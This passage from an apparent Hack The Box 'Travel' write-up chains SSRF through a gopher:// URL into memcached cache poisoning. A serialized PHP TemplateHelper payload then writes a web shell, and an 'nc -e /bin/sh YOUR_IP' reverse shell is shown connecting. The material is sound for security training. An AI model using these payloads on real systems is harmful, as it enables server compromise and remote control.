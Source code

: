 {: .text-justify}
```json
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) | 
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
If we use our custom feed url from above we get to see another entry:
```json
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| SpyD3r | O:5:"Hello":0:{} | 
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) | 
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
So the the awesome-rss blog page is cached in the second row. Once it's in there it will revert to this entry when refreshing the awesome-rss blog page - but if we can write our payload in there in the meantime it will execute that instead. For this we need the key which is unfortunately truncated. This can be achieved either by reading the simplepie source code (turns out the key is generated by `xct_ + md5(md5(feed_url) + ":spc")`) or by deploying things locally. I went for the latter and after some tweaking I retrieved the key from memcached:
{: .text-justify}
```bash
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats items
STAT items:16:number 1
[snip]
stats cachedump 16 100
ITEM xct_4e5612ba079c530a6b1f148c0b352241 [2737 b; 1595004892 s]
END
```
Now that we got the key we can verify that we are now able to overwrite an existing cache entry. By changing `SpyD3r` to `xct_4e5612ba079c530a6b1f148c0b352241`. 
Now, to get RCE, the class `TemplateHelper` from the `template.php` file might come in handy because of the `file_put_contents` function. By following this [post](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) on how to exploit php deserialization and using [this tool](https://www.unserialize.com/) I came up with the following payload:
```json
# Basically, the latter 'O' means object, 's' string, and the digit following 
# tells how many characters the object/string consists of
O:14:"TemplateHelper":2:{s:4:"file";s:8:"this.php";s:4:"data";s:31:"<?php system($_GET['this']); ?>";}
```
This payload creates a file called `this.php` in the `logs` folder containing `<?php system($_GET['this']); ?>`. This way we can get a reverse shell in three steps, after URL encoding:
{: .text-justify}
```bash
# Overwriting the cache
http://blog.travel.htb/awesome-rss/?debug&custom_feed_url=gopher://0.0.0.0:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20102%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22this.php%22%3Bs:4:%22data%22%3Bs:31:%22%3C%3Fphp%20system%28%24_GET%5B%27this%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
# Command execution via `nc -e` reverse shell
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/this.php?this=nc%20-e%20/bin/sh%20YOUR_IP%201234
```
```bash
kali@kali:~$ nc -lnvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.189.
Ncat: Connection from 10.10.10.189:57904.
ls
this.php
```